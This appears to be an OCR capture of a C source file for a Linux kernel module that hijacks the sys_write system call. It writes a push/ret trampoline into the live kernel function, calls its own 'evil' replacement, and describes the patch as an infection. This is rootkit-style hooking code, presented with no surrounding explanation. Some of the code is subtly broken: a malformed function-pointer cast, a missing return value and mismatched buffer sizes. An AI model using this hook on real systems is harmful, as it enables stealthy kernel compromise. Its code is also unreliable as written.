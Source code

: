 ```
#define SYSCALL_NR __NR_write

static char syscall_code[7];
static char new_syscall_code[7] =
"\x68\x00\x00\x00\x00\xc3"; // push $addr; ret

// our new version of sys_write
int new_syscall(long fd, void *buf, size_t len)
{
        printk(KERN_INFO "I am the evil sys_write!\n");

        // Replace the original code back into the first 6
        // bytes of sys_write (remove trampoline)

        memcpy(
       sys_call_table[SYSCALL_NR], syscall_code,
                sizeof(syscall_code)
        );

        // now we invoke the original system call with no trampoline
        ((int (*)(fd, buf, len))sys_call_table[SYSCALL_NR])(fd, buf, len);

        // Copy the trampoline back in place!
        memcpy(
                sys_call_table[SYSCALL_NR], new_syscall_code,
                sizeof(syscall_code)
        );
}

int init_module(void)
{
        // patch trampoline code with address of new sys_write
        *(long *)&new_syscall_code[1] = (long)new_syscall;

        // insert trampoline code into sys_write
        memcpy(
                syscall_code, sys_call_table[SYSCALL_NR],
                sizeof(syscall_code)
        );
        memcpy(
                sys_call_table[SYSCALL_NR], new_syscall_code,
                sizeof(syscall_code)
        );
        return 0;
}

void cleanup_module(void)
{
        // remove infection (trampoline)
        memcpy(
                sys_call_table[SYSCALL_NR], syscall_code,
                sizeof(syscall_code)
        );
}
```
